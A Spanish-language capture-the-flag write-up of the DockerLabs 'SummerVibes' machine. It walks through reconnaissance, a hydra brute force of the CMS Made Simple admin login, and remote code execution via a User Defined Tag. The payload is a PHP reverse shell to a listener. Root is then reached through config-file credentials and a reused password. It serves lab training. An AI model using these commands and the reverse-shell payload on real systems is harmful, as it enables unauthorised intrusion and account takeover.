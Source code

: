 # Máquina SummerVibes

Dificultad -> Difícil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d119f1fa4816af8a4a892d7889e92d94 (ECDSA)
|_  256 b8b72e643eeec32e2ebe99074e024f16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Echamos un vistazo a la web que corre por el puerto 80. Se trata de la web por defecto de apache. Revisando el código fuente encontramos un comentario que nos da una pista:

![Pasted image 20240428141237](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/09748c7a-d163-47c6-b417-a9d54638bb5b)

Si accedemos a ese directorio encontramos un gestor de contenido:

![Pasted image 20240428141316](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2ca7cda8-8221-47da-ade7-28012a94b951)

Aplicamos **fuzzing** sobre la web con **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/cmsms/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,txt,html,php.bak
-------------------------------------------------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 19671]
/modules              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/modules/]
/uploads              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/uploads/]
/doc                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/doc/]    
/admin                (Status: 301) [Size: 314] [--> http://172.17.0.2/cmsms/admin/]  
/assets               (Status: 301) [Size: 315] [--> http://172.17.0.2/cmsms/assets/] 
/lib                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/lib/]    
/config.php           (Status: 200) [Size: 0]                                         
/tmp                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/tmp/]  
```

Encontramos directorios interesantes como **/admin**, **/uploads**, etc. Dentro del directorio **/admin** encontramos un panel de **login**:

![Pasted image 20240428145810](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9685e43c-aa7b-4ad5-ae06-4f8aa537c03b)

Usando **whatweb** sobre la web principal, encontramos la versión del gestor de contenido -> **CMS-Made-Simple\[2.2.19]**

***

## Explotación

Haciendo un poco de búsqueda, vemos que hay algunas vulnerabilidades para esta versión, pero que sucede con usuarios autenticados con privilegios administrativos.

[CVE-Details](https://www.cvedetails.com/cve/CVE-2024-27622/) ![Pasted image 20240428142536](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f1b6cad1-1b48-4abb-b45d-dfc9bdddfa32)

[Github CVE Reference](https://github.com/capture0x/CMSMadeSimple) ![Pasted image 20240428142725](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9dec9e60-3dfa-436d-bb52-be7a7bb85ba3)

Aplicaremos fuerza bruta sobre el panel de login con **hydra**: Para ello, analizamos la **data** que se tramita al intentar hacer login en el panel de admin que encontramos anteriormente y la usamos en hydra:

![Pasted image 20240428150255](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc0840e2-037c-483c-8440-91daa97ed33d)

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" 
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
```

Encontramos las credeciales de admin -> **admin:chocolate** Nos logeamos.

Es el momento de volver al exploit que encontramos antes -> [Github CVE Reference](https://github.com/capture0x/CMSMadeSimple) Seguimos los pasos.

* Extensions -> User Defined Tags

![Pasted image 20240428152312](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/263f11fe-f143-41f7-ad30-58ce125c1e00)

* Add User Defined Tag -> Introducimos el Payload -> Run

![Pasted image 20240428152534](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1520cbfc-c2dd-42e7-8a7c-25da705225b6)

Tenemos **RCE** (Remote Comand Execution)

Nos ponemos en escucha con **netcat** para ganar acceso al sistema y nos enviamos una **reverse shell**:

Máquina atacante:

```shell
sudo nc -nlvp 443
```

Payload:

```php
<?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1" '); ?>
```

Run.

Estamos dentro !

***

Aplicamos el tratamiento de la **tty** para operar de forma cómoda.

***

## Escalada de privilegios

```shell
ps -faux
```

![Pasted image 20240428153452](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/dcb57cae-722c-4dad-a737-1e5f44408c11)

Vemos que está corriendo una base de datos de forma interna. Listaremos por archivos **config** para tratar de encontrar las credenciales:

```shell
find -name \*config\* 2>/dev/null
```

Abrimos el archivo -> **/var/www/html/cmsms/config.php**

```shell
cat /var/www/html/cmsms/config.php
----------------------------------------
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'cms';
$config['db_password'] = 'cms';
$config['db_name'] = 'test';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'UTC';
```

Usaremos las credenciales -> **cms:cms** para conectarnos a la base de datos.

```shell
mysql -H localhost -u cms -p
---------------------------------
ERROR 1044 (42000): Access denied for user 'cms'@'localhost' to database '172.17.0.2'
```

No nos permite conectarnos. Tras más reconocimiento del sistema, finalmente, la contraseña **chocolate** había sido reutilizada para el usuario **root**.

```shell
su root
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema.
